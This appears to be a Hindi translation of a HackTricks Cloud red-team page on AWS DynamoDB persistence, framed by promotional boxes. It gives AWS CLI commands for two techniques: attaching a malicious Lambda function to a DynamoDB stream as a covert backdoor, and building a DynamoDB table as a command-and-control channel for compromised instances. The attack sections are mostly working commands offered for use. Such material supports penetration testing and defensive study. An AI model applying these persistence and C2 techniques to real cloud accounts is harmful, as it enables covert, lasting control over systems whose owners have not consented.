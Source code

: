 # AWS - DynamoDB स्थायित्व

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

### DynamoDB

अधिक जानकारी के लिए एक्सेस करें:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB ट्रिगर्स के साथ Lambda बैकडोर

DynamoDB ट्रिगर्स का उपयोग करते हुए, एक हमलावर एक टेबल के साथ एक दुर्भावनापूर्ण Lambda फंक्शन को जोड़कर एक **गुप्त बैकडोर** बना सकता है। Lambda फंक्शन को ट्रिगर किया जा सकता है जब कोई आइटम जोड़ा, संशोधित, या हटाया जाता है, जिससे हमलावर AWS खाते के भीतर मनमाने कोड को निष्पादित कर सकता है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

पर्सिस्टेंस बनाए रखने के लिए, हमलावर DynamoDB टेबल में आइटम्स को बना सकता है या मॉडिफाई कर सकता है, जिससे मलिशस Lambda फंक्शन ट्रिगर होगा। इससे हमलावर को AWS अकाउंट के भीतर कोड एक्जीक्यूट करने की अनुमति मिलती है बिना Lambda फंक्शन के सीधे इंटरैक्शन के।

### DynamoDB को C2 चैनल के रूप में

हमलावर DynamoDB टेबल का उपयोग **कमांड एंड कंट्रोल (C2) चैनल** के रूप में कर सकता है, आइटम्स बनाकर जिसमें कमांड्स होते हैं और समझौता किए गए इंस्टेंसेस या Lambda फंक्शन्स का उपयोग करके इन कमांड्स को फेच करने और एक्जीक्यूट करने के लिए।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
समझौता किए गए उदाहरण या Lambda फ़ंक्शन्स नियमित रूप से C2 टेबल को नए कमांड्स के लिए जांच सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को वापस टेबल में रिपोर्ट कर सकते हैं। यह हमलावर को समझौता किए गए संसाधनों पर निरंतरता और नियंत्रण बनाए रखने की अनुमति देता है।

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से नायक तक </strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
